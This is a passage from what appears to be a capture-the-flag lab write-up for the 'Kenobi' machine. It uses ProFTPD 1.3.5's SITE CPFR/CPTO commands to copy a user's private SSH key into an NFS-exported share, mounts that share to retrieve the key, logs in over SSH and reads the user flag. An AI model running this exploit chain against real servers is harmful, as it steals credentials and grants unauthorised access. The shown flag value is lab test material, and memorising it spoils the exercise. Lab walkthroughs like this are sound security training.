 So from this, it looks like the following set of commands would work once in there

```
site cpfr /home/kenobi/.ssh/id_rsa
site cpto /var/tmp/id_rsa
```

Ok, let's do it! Deep breaths...

---

```
$ nc $thm_ip 21                                        
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.225.136]
...
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

---

Nice! It should be in there now. Now we just need to mount the NFS `/var` share to our system, them grab the file then unmount.

---

```
sudo mkdir /mnt/kenobiNFS
sudo mount $thm_ip:/var /mnt/kenobiNFS
cp /mnt/kenobiNFS/tmp/id_rsa .
sudo umount /mnt/kenobiNFS
sudo rm -rf /mnt/kenobiNFS
```

---

Ok! We have the file, let's SSH in and hope his key isn't password protected! Fingers crossed...

---

```
└─$ ssh -i id_rsa kenobi@$thm_ip   
The authenticity of host '10.10.225.136 (10.10.225.136)' can't be established.
ECDSA key fingerprint is SHA256:uUzATQRA9mwUNjGY6h0B/wjpaZXJasCPBY30BvtMsPI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.225.136' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ ls
share  user.txt
kenobi@kenobi:~$ cat user.txt
d0b0f3f53b6caa532a83915e19224899
```
